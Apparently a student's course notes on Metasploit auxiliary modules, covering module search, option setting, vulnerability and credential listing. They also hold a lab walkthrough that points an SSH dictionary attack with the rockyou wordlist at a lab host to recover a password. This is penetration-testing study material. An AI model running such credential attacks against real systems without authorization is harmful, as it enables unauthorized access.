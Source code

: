 - list all auxiliary modules
	- `show auxiliary`
- Use **search** by filtering type
	- `search type:auxiliary smb`
	- `user 56`
- Get information about the currently activated module
	- `info`
- display the options of a module
	- `show options`
- To display all required, but not yet set, options
	- `show missing`
- add or remove values from options
	- `set`, `unset`, `setg`, `unsetg`
- Set the value in an automated fashion by leveraging the results in the database
	- Example: we can set _RHOSTS_ to all discovered hosts with open port 445
		- `unset RHOSTS`
		- `services -p 445 --rhosts`
- launch module
	- `run`
	- `exploit`
- Show if Metasploit automatically detected vulnerabilities based on the results of this module
	- `vulns`
- _Password Attacks_ Module
		- Scenario:
			- `we successfully identified credentials on BRUTE by leveraging a dictionary attack against SSH. Instead of Hydra,2 we can also use Metasploit to perform this attack`
	- To begin, we'll **search** for SSH auxiliary modules.
		- ```search type:auxiliary ssh```
		- `use 15`
		- `show options`
	- set options
		- ```set PASS_FILE /usr/share/wordlists/rockyou.txt```
		- ```set USERNAME george```
		- ```set RHOSTS 192.168.50.201```
		- ``` ```
	- `run`
	- opens a *session*
- display all valid credentials we gathered up to this point
	- `creds`